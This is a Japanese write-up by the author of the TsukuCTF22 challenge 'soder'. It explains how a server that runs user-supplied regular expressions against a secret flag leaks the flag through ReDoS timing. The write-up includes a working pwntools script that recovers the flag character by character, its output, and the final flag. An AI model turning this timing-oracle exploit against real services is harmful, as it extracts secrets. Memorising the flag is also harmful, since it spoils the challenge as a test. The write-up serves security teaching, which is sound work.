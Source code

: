 ```yaml
---
title: soder
description: ReDoSの逆問題
author: Satoki
genre: Misc
solver: 16
point: 498
---
```


# soder

## 問題文
flagのvalidatorを作ってもらったのですが、同じ応答しか返しません(´;ω;｀)  
`※フラグの形式はTsukuCTF22{[0-9a-z_]+}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。`  
`nc 133.130.103.51 31417`  

## 難易度
**medium**  

## 作問にあたって
Webのleaks4bの作問中に非想定解のオラクルとして思いついたものを問題にしました(実は作問時に調べたら、先に思いついていた方がいてしょんぼりしていました)。  
ReDoS問題としては、脆弱なパターンに任意の入力を渡す場合が多いですが、逆を作ってみました(ReDoS checkerで一発なため)。  
爆発するバックトラックを発生させるパターンをうまく作成すれば良いです。  

## 解法
ソースと接続先が与えられる。  
ソースを見ると以下のようであった。  
```python
#!/usr/bin/env python3
import os
import re
from timeout_decorator import timeout

FLAG = os.getenv("FLAG", "TsukuCTF22{dummy_flag}")

@timeout(5)
def flag_validator(pattern):
    re.match(pattern, FLAG)

def yakitori():
    pattern = input("Pattern: ")
    print("I check your pattern.")
    try:
        # This function will be timed out in 5 seconds.
        flag_validator(pattern)
    except:
        pass
    print("Probably valid flag!")

yakitori()
```
パターンをユーザから受け取り、`re.match`をフラグに行い終了している。  
`re.match`の結果を利用していないので、別の手法でフラグを読み取る必要がある。  
ここで、正規表現のパターンを入力から受け取っているためReDoSが行えることがわかる。  
よく知られている脆弱なパターン`^(([a-zA-Z0-9])+)+$`をフラグ形式に合う形で加工した`^((([0-9a-z_CTF{])+)+)+$`を投げてみる。  
```bash
$ time echo 'Test' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m0.687s
user    0m0.006s
sys     0m0.001s
$ time echo '^((([0-9a-z_CTF{])+)+)+$' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m5.562s
user    0m0.005s
sys     0m0.002s
```
応答時間に差があることがわかる。  
つまりこの応答時間からフラグの一致を読み取れる。  
`^(?=フラグ文字列)((([0-9a-z_CTF{])+)+)+$`のように肯定先読みを使って、一致した場合にのみ応答が遅れるペイロードを構成してやればよい。  
以下のwftf.pyを用いる。  
```python
from pwn import *

FLAG = "TsukuCTF22{"

while True:
    for c in "0123456789abcdefghijklmnopqrstuvwxyz_":
        io = remote("133.130.103.51", "31417", level="error")
        io.recvuntil(b"Pattern: ")
        #print(c) # Debug
        io.sendline(f"^(?={FLAG}{c})((([0-9a-z_CTF{{])+)+)+$".encode())
        response = io.recvrepeat(4.5).decode()
        if not "Probably valid flag!" in response:
            FLAG += c
            print(FLAG)
            io.close()
            break
        io.close()
    else:
        FLAG += "}"
        print(FLAG)
        break
```
実行する  
```bash
$ python wftf.py
TsukuCTF22{4
TsukuCTF22{4_
TsukuCTF22{4_w
TsukuCTF22{4_w4
TsukuCTF22{4_w47
TsukuCTF22{4_w47c
TsukuCTF22{4_w47ch
TsukuCTF22{4_w47ch3
TsukuCTF22{4_w47ch3d
TsukuCTF22{4_w47ch3d_
TsukuCTF22{4_w47ch3d_p
TsukuCTF22{4_w47ch3d_p0
TsukuCTF22{4_w47ch3d_p07
TsukuCTF22{4_w47ch3d_p07_
TsukuCTF22{4_w47ch3d_p07_n
TsukuCTF22{4_w47ch3d_p07_n3
TsukuCTF22{4_w47ch3d_p07_n3v
TsukuCTF22{4_w47ch3d_p07_n3v3
TsukuCTF22{4_w47ch3d_p07_n3v3r
TsukuCTF22{4_w47ch3d_p07_n3v3r_
TsukuCTF22{4_w47ch3d_p07_n3v3r_b
TsukuCTF22{4_w47ch3d_p07_n3v3r_b0
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}
```
flagが得られた。  

## TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}
